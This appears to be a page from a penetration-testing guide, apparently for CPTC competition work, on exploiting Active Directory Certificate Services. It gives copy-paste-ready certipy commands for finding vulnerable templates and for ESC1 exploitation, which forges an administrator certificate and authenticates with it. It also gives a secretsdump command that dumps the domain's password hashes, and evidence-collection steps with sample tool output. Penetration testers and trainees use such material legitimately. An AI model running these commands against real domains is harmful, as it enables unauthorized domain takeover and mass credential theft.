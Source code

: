 
#### Quick Commands (Copy-Paste Ready):

**Enumeration:**
```bash
certipy find -u 'USER@DOMAIN' -p 'PASS' -dc-ip DC_IP -vulnerable -output DOMAIN-adcs
```

**Exploitation (ESC1):**
```bash
certipy req -u 'USER@DOMAIN' -p 'PASS' -ca 'CA-NAME' -template 'TEMPLATE' -upn 'administrator@DOMAIN' -dc-ip DC_IP && \
certipy auth -pfx administrator.pfx -dc-ip DC_IP
```

**Domain Dump:**
```bash
secretsdump.py -hashes ':NTLM_HASH' 'administrator@DC_IP' -just-dc -outputfile domain-dump
```

---

### Step 27: Evidence Collection for CPTC Reports

**Required Evidence for AD CS Finding:**

---

#### 1. Enumeration Output

```bash
# Save certipy find output
certipy find -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -vulnerable \
    -output evidence-adcs-enum

# Files for report:
# ✓ evidence-adcs-enum.txt  (full enumeration)
# ✓ evidence-adcs-enum.json (machine-readable)
```

**Screenshot:** Text output showing vulnerable template

---

#### 2. Vulnerable Template Configuration

**Screenshot of text output showing:**
```
Certificate Templates
  0
    Template Name                   : ESC1-Template
    Enrollment Permissions          : CORP\Domain Users
    Client Authentication           : True
    Requires Manager Approval       : False
    [!] Vulnerabilities
        ESC1: 'CORP\\Domain Users' can enroll...
```